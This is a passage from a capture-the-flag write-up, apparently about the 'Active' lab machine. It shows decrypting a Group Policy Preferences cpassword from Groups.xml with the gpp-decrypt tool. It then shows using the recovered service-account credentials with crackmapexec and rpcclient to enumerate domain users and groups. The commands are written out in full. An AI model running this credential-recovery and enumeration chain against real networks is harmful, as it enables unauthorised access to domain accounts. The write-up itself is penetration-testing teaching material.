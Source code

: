 <br />
<img src="{{ site.img_path }}/active_writeup/Active_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I do some research with a search engine and look for a project on **Github** that is related to **decrypting cpassword from the Groups.xml file**, I'm lucky because there are some repositories like **[t0thkr1s](https://github.com/t0thkr1s/gpp-decrypt){:target="_blank"}** that has a **Python** script that can get in clear text the password. I'm going to clone with `git` the project on my attacking machine and install the necessary libraries, but due to **Python** security measures it won't let me install deprecated libraries so I have to setup a **virtual environment** with `python` and this way I can continue the installation and get the script running. I access the help panel of the tool to get information about how it works and what parameter to use to specify the **.xml** file where the password hash is stored, so I can get it in clear text.

> **Group Policy Preferences** (**GPP**) was introduced in **Windows Server 2008** and allows administrators to **set domain passwords** via Group Policy. However, the passwords are encrypted with a publicly known **AES-256** key, making them trivial to decrypt.

```bash
git clone https://github.com/t0thkr1s/gpp-decrypt
cd gpp-decrypt
pip install gpp-decrypt
pip2 install gpp-decrypt

pip3 install gpp-decrypt

python3 -m venv ./
./bin/pip3 install gpp-decrypt
./bin/pip3 install .
gpp-decrypt --help
./bin/python3 gpp-decrypt.py --help
./bin/python3 gpp-decrypt.py -f ../Groups.xml

crackmapexec smb 10.10.10.100 -u 'svc_tgs' -p 'G...8'
rpcclient -U "svc_tgs%G...8" 10.10.10.100
  enumdomusers
  enumdomgroups
```

<br />
<img src="{{ site.img_path }}/active_writeup/Active_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
